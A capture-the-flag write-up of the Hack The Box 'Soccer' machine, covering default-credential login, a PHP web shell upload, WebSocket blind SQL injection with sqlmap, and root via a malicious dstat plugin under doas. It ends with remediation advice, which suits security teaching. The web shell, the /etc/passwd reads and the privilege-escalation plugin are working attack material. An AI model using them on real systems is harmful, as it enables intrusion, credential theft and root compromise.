



# Soccer - Hack The Box Write-Up

## Machine Information

| Field | Value |
| --- | --- |
| Machine | Soccer |
| Platform | Hack The Box |
| Operating system | Linux |
| Difficulty | Easy |
| Status | Retired |
| Primary services | SSH, HTTP, WebSocket |
| Main techniques | Web enumeration, default credentials, authenticated file upload, PHP command execution, virtual-host discovery, blind SQL injection over WebSocket, SSH, doas and dstat plugin abuse |

## Executive Summary

Directory enumeration discovered Tiny File Manager 2.4.3 under `/tiny`. The application still accepted its vendor-documented default administrator credential. After authentication, a PHP command shell was uploaded to a web-accessible directory, providing command execution as `www-data`.

Local web-server configuration disclosed a second virtual host, `soc-player.soccer.htb`, backed by an application on port 3000. Its authenticated ticket-checking page communicated with a WebSocket service on port 9091. The ticket identifier was vulnerable to boolean-based blind SQL injection, allowing the application database to be dumped. Credentials recovered from the `accounts` table were valid for SSH as `player`.

The `player` user could run `/usr/bin/dstat` as root through `doas` without a password. Dstat loaded Python plugins from a directory writable by `player`, so a custom plugin launched a shell when dstat executed it. Because doas had started dstat as root, the resulting shell inherited UID `0`.


## Conventions

The following placeholders replace changing lab values and reusable secrets:

| Placeholder             | Meaning                                                            |
| ----------------------- | ------------------------------------------------------------------ |
| `<TARGET_IP>`           | Lab IP address of Soccer                                           |
| `<TINY_ADMIN_PASSWORD>` | Vendor-documented default Tiny File Manager administrator password |
| `<VALID_TICKET_ID>`     | Ticket identifier issued to the registered test account            |
| `<PLAYER_PASSWORD>`     | Password recovered from the application database                   |

No user or root flag values are included.

## Reconnaissance

### Port Discovery

A full TCP scan found three exposed services:

```bash
nmap -sC -sV -p- -Pn --min-rate 10000 <TARGET_IP> -oA nmap/all-ports
```

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
80/tcp   open  http    nginx 1.18.0
9091/tcp open  unknown HTTP-like responses
```

Port 80 redirected to `http://soccer.htb/`, so the hostname was mapped locally:

```bash
echo '<TARGET_IP> soccer.htb' | sudo tee -a /etc/hosts
```

The service on port 9091 returned HTTP errors such as `Cannot GET /`. Its purpose became clear only after the application source revealed that it was a WebSocket endpoint.

### Web Content Discovery

Feroxbuster enumerated the main website:

```bash
feroxbuster -u http://soccer.htb/
```

```text
200 GET http://soccer.htb/
301 GET http://soccer.htb/tiny     => http://soccer.htb/tiny/
301 GET http://soccer.htb/tiny/uploads => http://soccer.htb/tiny/uploads/
```

Browsing to `/tiny/` exposed a Tiny File Manager login page.



## Initial Access

### Default Tiny File Manager Credentials

The Tiny File Manager project documents two default accounts and warns administrators to replace them before use. The default administrator username and password were accepted by the target:

```text
Username: admin
Password: <TINY_ADMIN_PASSWORD>
```

The resulting dashboard exposed file-management and upload functions. Its footer identified version `2.4.3`.



Tiny File Manager versions before 2.4.7 are covered by CVE-2021-45010, an authenticated path-traversal issue in the upload functionality that can place PHP files in the web root. In this deployment, the administrator could navigate directly to `tiny/uploads`, and the server accepted and executed PHP from that web-accessible directory. No separate exploit script was required for the observed path.

### PHP Upload and Command Execution

A minimal PHP command shell was created:

```php
<?php system($_GET["cmd"]); ?>
```

The file was uploaded through the dashboard while the current directory was `tiny/uploads`. Requesting the uploaded file with an `id` command confirmed execution:

```bash
curl "http://soccer.htb/tiny/uploads/shell.php?cmd=id"
```

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This established an authenticated web-shell foothold as nginx's unprivileged `www-data` account.

## Application Enumeration

### Discovering a Local User

The web shell was used to inspect `/etc/passwd`:

```bash
curl 'http://soccer.htb/tiny/uploads/shell.php?cmd=cat+/etc/passwd'
```

```text
player:x:1001:1001::/home/player:/bin/bash
```

`player` was the only non-system account shown with an interactive Bash shell, making it the likely lateral-movement target.

### Discovering the soc-player Virtual Host

The enabled nginx configuration contained another server block:

```bash
curl "http://soccer.htb/tiny/uploads/shell.php?cmd=cat+/etc/nginx/sites-enabled/soc-player.htb"
```

```nginx
server {
    listen 80;
    listen [::]:80;

    server_name soc-player.soccer.htb;
    root /root/app/views;

    location / {
        proxy_pass http://localhost:3000;
        proxy_http_version 1.1;
        proxy_set_header Upgrade $http_upgrade;
        proxy_set_header Connection 'upgrade';
        proxy_set_header Host $host;
        proxy_cache_bypass $http_upgrade;
    }
}
```

The `proxy_pass` directive showed that nginx forwarded this virtual host to a local application on port 3000. The upgrade headers also suggested WebSocket support.

The additional hostname was mapped to the same target address:

```text
<TARGET_IP> soccer.htb soc-player.soccer.htb
```

The virtual host presented a separate football-club application with registration and login functionality.



## WebSocket SQL Injection

### Ticket-Checking Functionality

A test account was registered and used to sign in. The authenticated application issued a ticket identifier and exposed a page for checking ticket validity.


The page source showed that user input was serialized as JSON and sent to a WebSocket service on port 9091:

```javascript
var ws = new WebSocket("ws://soc-player.soccer.htb:9091");

function sendText() {
    var msg = input.value;
    if (msg.length > 0) {
        ws.send(JSON.stringify({
            "id": msg
        }))
    }
}
```

The server returned a message that the page inserted into the result area. This made it possible to compare the application's response to true and false database conditions.

### Confirming Boolean-Based Injection

Appending a true SQL expression to a ticket number returned `Ticket Exists`:

```text
<VALID_TICKET_ID> or 1=1
```


The response change showed that the WebSocket handler incorporated the `id` value into a database query without safely parameterizing it. Although no query output was displayed directly, true and false conditions created an oracle suitable for boolean-based blind extraction.

### Dumping the Database With sqlmap

Sqlmap can connect to a WebSocket URL and place its injection marker inside JSON data. The current database was identified first:

```bash
sqlmap -u 'ws://soc-player.soccer.htb:9091' \
  --data '{"id":"<VALID_TICKET_ID> *"}' \
  --batch --technique B --current-db
```

```text
[INFO] retrieved: soccer_db
```

The database schema contained an `accounts` table:

```bash
sqlmap -u 'ws://soc-player.soccer.htb:9091' \
  --data '{"id":"<VALID_TICKET_ID> *"}' \
  --batch --technique B -D soccer_db --tables
```

```text
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

The table was then dumped:

```bash
sqlmap -u 'ws://soc-player.soccer.htb:9091' \
  --data '{"id":"<VALID_TICKET_ID> *"}' \
  --batch --technique B -D soccer_db -T accounts --dump
```

```text
Database: soccer_db
Table: accounts
+------+-------------------+-------------------+----------+
| id   | email             | password          | username |
+------+-------------------+-------------------+----------+
| 1324 | player@player.htb | <PLAYER_PASSWORD> | player   |
+------+-------------------+-------------------+----------+
```

The application stored the password in plaintext. It was also valid for the operating-system account discovered earlier.

## Lateral Movement to player

The recovered credential provided SSH access:

```bash
ssh player@soccer.htb
```

```text
player@soccer:~$ id
uid=1001(player) gid=1001(player) groups=1001(player)
```

This moved execution from the restricted web account to an interactive local user.

## Privilege Escalation

### doas Permission for dstat

Local enumeration found a setuid installation of `doas`, an alternative to `sudo`, and the following rule in `/usr/local/etc/doas.conf`:

```text
permit nopass player as root cmd /usr/bin/dstat
```

The rule allowed `player` to run `/usr/bin/dstat` as root without supplying a password. Restricting the command path was insufficient because dstat supports external Python plugins and accepts the plugin name through command-line arguments.

### Writable dstat Plugin Directory

A search for files owned by root and grouped to `player` identified dstat's local plugin directory:

```bash
find / -user root -group player 2>/dev/null
```

```text
/usr/local/share/dstat
```

The successful creation of a file in this directory confirmed that `player` could write there. Dstat recognizes external plugins named `dstat_<plugin>.py` and loads them when called with `--<plugin>`.

A plugin was created as `/usr/local/share/dstat/dstat_d3kc4rt1.py`:

```python
import os
os.execl("/bin/sh", "sh")
```

Rather than collecting statistics, importing the plugin replaced the dstat process with `/bin/sh`.

### Root Through Plugin Loading

Dstat was invoked through the permitted doas rule:

```bash
doas /usr/bin/dstat --d3kc4rt1
```

```text
# id
uid=0(root) gid=0(root) groups=0(root)
```

Doas started dstat with root privileges. Dstat then imported the attacker-controlled Python plugin without dropping those privileges, so the shell launched by `os.execl` inherited UID `0`.

## Security Observations

| Observation | Impact | Recommended control |
| --- | --- | --- |
| Tiny File Manager was publicly reachable | An administrative file-management surface was exposed to unauthenticated users | Remove unnecessary management tools or restrict them to an authenticated administrative network |
| The documented default administrator credential was unchanged | Anyone familiar with the software defaults could obtain administrative access | Replace default credentials during deployment and enforce unique, strong secrets |
| Tiny File Manager 2.4.3 accepted a PHP upload into a web-executable directory | File-management access became operating-system command execution | Upgrade to a supported release, restrict upload paths and extensions, and disable script execution in upload directories |
| nginx configuration was readable from the web-service account | The foothold disclosed internal virtual hosts and application architecture | Apply least-privilege file permissions while retaining only the access required by the web service |
| The ticket WebSocket concatenated untrusted input into a database query | An authenticated user could extract the complete application database | Use parameterized queries in WebSocket handlers and validate ticket identifiers as the expected numeric type |
| Application passwords were stored in plaintext | Database compromise immediately exposed a reusable SSH credential | Store passwords with a modern adaptive hash and salt, and keep application and operating-system credentials separate |
| `player` could run an extensible command as root | A permitted dstat argument loaded attacker-controlled code with root privileges | Avoid privileged access to interpreters or plugin-capable tools; constrain arguments and use a purpose-built wrapper where necessary |
| A dstat plugin directory was writable by `player` | The doas rule trusted code controlled by the unprivileged user | Make all privileged executable and plugin paths root-owned and non-writable by delegated users |

## Key Lessons

1. Default credentials remain high-value checks when an exposed product and version can be identified precisely.
2. Administrative upload functionality becomes code execution when a web server executes uploaded scripts.
3. Web-server configuration can reveal virtual hosts and internal services that are absent from external content discovery.
4. WebSocket messages require the same input validation and parameterized database access as conventional HTTP endpoints.
5. Boolean response differences are sufficient to extract a database even when query results are never returned directly.
6. Command allowlists must account for extensibility: an approved binary can still execute arbitrary code through plugins, modules, or user-controlled configuration.
7. A privileged command must never load code from a directory writable by the user allowed to invoke it.

## References

- [Hack The Box: Soccer machine profile](https://www.hackthebox.com/machines/soccer)
- [Tiny File Manager repository](https://github.com/prasathmani/tinyfilemanager)
- [CVE Program: CVE-2021-45010](https://www.cve.org/CVERecord?id=CVE-2021-45010)
- [Sqlmap usage documentation](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
- [OpenBSD manual: doas.conf](https://man.openbsd.org/doas.conf)
- [GTFOBins: dstat](https://gtfobins.github.io/gtfobins/dstat/)
